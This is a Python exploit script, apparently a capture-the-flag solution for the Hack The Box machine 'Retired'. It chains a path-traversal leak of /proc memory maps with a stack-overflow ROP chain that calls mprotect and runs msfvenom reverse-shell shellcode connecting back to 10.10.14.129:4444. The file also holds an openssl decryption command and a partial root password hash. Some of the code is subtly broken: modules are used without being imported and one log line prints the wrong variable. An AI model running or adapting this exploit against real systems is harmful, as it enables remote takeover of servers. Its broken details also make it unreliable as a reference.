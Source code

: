 ```openssl enc -d -aes-256-cbc -salt -pbkdf2 -in exploit.py.enc -out exploit.py```

Pass: ```root:$y$j9T$.......................fn1CzA:19062:0:99999:7:::```

```python
from pwn import *
import requests
import os
#import netifaces as ni
import subprocess
import shlex

#r = remote("localhost", 1337)
#context.log_level = "debug"
#ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.129 LPORT=4444 -f python
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x0a\x0a\x0e\x81\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

def bruteforce():
    log.progress("Bruteforcing...")
    for num in range(10000):
#    print("Trying: "+"/proc/"+str(num)+"/maps")
        target = "http://retired.htb/index.php?page=../../../../../../../proc/{}/maps".format(num)
        req = requests.get(target, allow_redirects=False)
        if "activate_license" in req.text:
            log.success("/proc/{}/maps".format(num))
            procFile = open("maps", "w")
            procFile.write(req.text)
            procFile.close()
            return

def file_upload():
    url = "http://retired.htb/activate_license.php"
    licenseFile = open("license", "rb")
    re = requests.post(url, files={"licensefile": licenseFile})
    if re.ok:
        print("")
        log.success("Uploaded license file.")
#    print(r.text)
    else:
        log.error("Upload failed.")
    return

#log.progress("Bruteforcing...")
bruteforce()

ff = open("maps", "r")
maps = ff.read()
# Base
stackAddr = re.search(r".*\[stack\].*", maps).group(0).partition("-")  #[0:-55]
stackBase = int(stackAddr[0], 16)
# End
stackAddr = re.search(r".*\[stack\].*", maps).group(0).split("-")
stackAddr = stackAddr[1].split(" ")
stackEnd = int(stackAddr[0], 16)
#print(hex(stackEnd))

libc = ELF("./libc-2.31.so")
libsql = ELF("./libsqlite3.so.0.8.6")
offset = 520 

libcBase = re.search(r".*/usr/lib/x86_64-linux-gnu/libc-2.31.so.*", maps).group(0).split("-")
libcBase = int(libcBase[0], 16)
libsqlBase = re.search(r".*/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6.*", maps).group(0).split("-")
libsqlBase = int(libsqlBase[0], 16)
#stackBase = 0x7ffc5257f000
#stackEnd = 0x7ffc525a00
stackSize = 0x21000 # stackBase - stackEnd
mprotect = libcBase + libc.symbols['mprotect']
pop_rdi = libcBase + 0x0000000000026796 # pop rdi ; ret
pop_rsi = libcBase + 0x000000000002890f # pop rsi ; pop r15 ; ret
pop_rdx = libcBase + 0x00000000000cb1cd # pop rdx ; ret
jmp_rsp = libsqlBase + 0x00000000000d431d # jmp rsp ; ret (libsqlite3.so.0.8.6)

payload = b""
payload += b"A"*offset

payload += p64(pop_rdi)
payload += p64(stackBase)

payload += p64(pop_rsi)
payload += p64(stackSize)

payload += p64(pop_rdx)
payload += p64(0x7)
payload += p64(mprotect)

payload += p64(jmp_rsp)
payload += buf

log.success("stackBase: {}".format(hex(stackBase)))
log.success("stackEnd: {}".format(hex(stackBase)))
log.success("mprotect: {}".format(hex(mprotect)))
log.success("libcBase: {}".format(hex(libcBase)))
log.success("libsqlBase: {}".format(hex(libsqlBase)))

f = open("license", "wb")
f.write(payload)
f.close()

def shellStart():
    r = listen(4444, timeout=10).wait_for_connection()
    r.sendline(b"whoami")
    r.interactive()

t=threading.Thread(target=shellStart)
t.start()
file_upload()
os.system("rm maps;rm license")
ff.close()


```
